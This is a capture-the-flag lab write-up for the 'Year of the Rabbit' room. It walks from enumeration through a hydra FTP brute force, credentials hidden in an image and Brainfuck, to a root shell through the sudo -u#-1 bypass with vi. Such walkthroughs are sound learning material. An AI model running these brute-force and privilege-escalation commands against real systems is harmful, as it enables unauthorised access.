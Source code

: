 ```yaml
---
layout: post
permalink: /posts/thm/year-of-the-rabbit
title: "Year of the Rabbit"
---
```


Let's start our enumeration with nmap.

```
nmap -sC -sV <TARGET-IP>
```

![nmap](/assets/images/thm/year-of-the-rabbit/nmap.png)

We can see that there are open ports 21 ftp, 22 ssh and 80 http. Let's try to find any hidden directories with gobuster.

```
gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```

While we are waiting for gobuster result, we can visit the web server.

![website](/assets/images/thm/year-of-the-rabbit/website.png)

It's just the Apache default page. Gobuster has finished the scan and here is the result.

![gobuster](/assets/images/thm/year-of-the-rabbit/gobuster.png)

Let's visit the `assets` directory.

![assets](/assets/images/thm/year-of-the-rabbit/assets.png)

Looking through the css file we have found another hidden directory.

![css](/assets/images/thm/year-of-the-rabbit/css.png)

Once we visit this page a pop up appears that told us to turn off the java script and it redirects us to an youtube video. We can download th source code with the following command:

```
wget http://<TARGET-IP>/sup3r_s3cr3t_fl4g.php
```

I fired up the Burp Suite and I visited /sup3r_s3cr3t_fl4g.php again. Capturing the request with burp we have found something interesting.

![burp-hidden](/assets/images/thm/year-of-the-rabbit/burp-hidden.png) 

Let's visit this hidden directory.

![hidden-directory](/assets/images/thm/year-of-the-rabbit/hidden-directory.png)

The directory contains an image.

![image](/assets/images/thm/year-of-the-rabbit/image.png)

Download the image, probably there is something hidden in it.

```
strings Hot_Babe.png
```

The command above shows us some hidden information.

![strings](/assets/images/thm/year-of-the-rabbit/strings.png)

Now we know the username for FTP. Copy all the found passwords and create a new file. Once this is done we can use hydra to brute force the FTP.

```
hydra -l ftpuser -P passwords ftp://<TARGET-IP>
```

![hydra](/assets/images/thm/year-of-the-rabbit/hydra.png)

Now we have the credentials for FTP. Let's login.

```
ftp <TARGET-IP>
```

![ftp](/assets/images/thm/year-of-the-rabbit/ftp.png)

We can download files from FTP with `get` command

```
get <FILE-NAME>
```

Open the file.

![brain-fuck](/assets/images/thm/year-of-the-rabbit/brain-fuck.png)

Wow... it's something bizarre, right? It's a `Brainfuck` an esoteric programming language created in 1993 by Urban Müller. We can use this <https://www.dcode.fr/brainfuck-language> site to decode it.

![decode](/assets/images/thm/year-of-the-rabbit/decode.png)

Now we have SSH credentials, let's login.

![ssh](/assets/images/thm/year-of-the-rabbit/ssh.png)

Hmm... we are greeted with a clue. We are not able to do almost anything with the current user, let's find this hidden message.

```
locate s3cr3t
```

Once we know where is the secret we can read it.

![secret](/assets/images/thm/year-of-the-rabbit/secret.png)

Switch to the gwendoline account.

```
su gwendoline
```

Now we are able to view the first flag. To find the root's flag we need to escalate our privileges. Let's check whether gwendoline is able to run any commands as root.

```
sudo -l
```

![sudo-l](/assets/images/thm/year-of-the-rabbit/sudo-l.png)

We are able to run `/usr/bin/vi /home/gwendoline/user.txt` as all users except root. After some research I have found the following exploit <https://www.exploit-db.com/exploits/47502>. Basically, this flaw allows us to run a command as root by specifying the target user using the numeric id of -1.

```
 sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Based on <https://gtfobins.github.io/gtfobins/vi/> once it opens the vi editor execute the following command.

```
:!/bin/sh
```

![bin-sh](/assets/images/thm/year-of-the-rabbit/bin-sh.png)

It'll open a root shell.

![root](/assets/images/thm/year-of-the-rabbit/root.png)

Now we are able to read the root's flag.
